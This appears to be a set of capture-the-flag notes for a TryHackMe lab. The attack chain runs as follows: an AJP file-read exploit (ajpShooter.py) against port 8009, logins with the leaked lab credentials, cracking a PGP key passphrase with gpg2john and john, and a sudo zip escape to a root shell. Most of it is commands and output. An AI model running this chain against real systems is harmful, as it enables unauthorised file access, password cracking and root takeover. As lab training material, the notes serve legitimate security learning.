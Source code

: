 python3 ajpShooter.py http://10.10.4.37:8080/ 8009 /WEB-INF/web.xml read

skyfuck:8730281lkjlkjdqlksalks
 
ssh skyfuck@10.10.4.37
password:8730281lkjlkjdqlksalks

scp skyfuck@10.10.118.169:credential.pgp .    
scp skyfuck@10.10.118.169:tryhackme.asc .   

Usage
-----

1. Run gpg2john on PGP symmetrically encrypted files (.gpg / .asc).

2. Run john on the output of gpg2john.

Example
-------

$ ../run/gpg2john test-password.asc > hash  # https://id0-rsa.pub/problem/1/

$ ../run/john hash -w=all
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)
...

└─$ gpg2john tryhackme.asc > thmoutput

File tryhackme.asc
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat thmoutput             
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt thmoutput 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2022-11-15 00:16) 33.33g/s 35733p/s 35733c/s 35733C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ gpg --import tryhackme.asc                                
gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j    

Sudo Rights Lab setups for Privilege Escalation

The behaviour of zip gets changed when running with higher privilege. Let’s suppose the system admin had given sudo permission to the local user to run zip. This is can be led to privilege escalation once the system is compromised. So here we are going to put test user in the sudoers file so that test user has root the privileges to run zip command as sudo user.

Now imagine can we have Privilege shell of victim’s pc by exploiting zip program. It’s very difficult to even think of but very easy to perform. So, let’s do that. First, go to kali’s terminal and connect ubuntu with ssh as we have done in below-

ssh test@192.168.1.108

Well-done. We have connected through ssh successfully.

Now we will run sudo -l command to check the list the entries of sudo files which are a member of the sudoers file. In the list, we can see that test is a member of the sudoers file and can run the zip program with root privilege.

Let’s exploit!!

Now first we will create a file with touch command as we have created a file raj.txt and now we will compress the raj.txt and through zip file, we are taking a shell. So that we will run the following command-

sudo zip 1.zip raj.txt -T --unzip-command="sh -c /bin/bash"

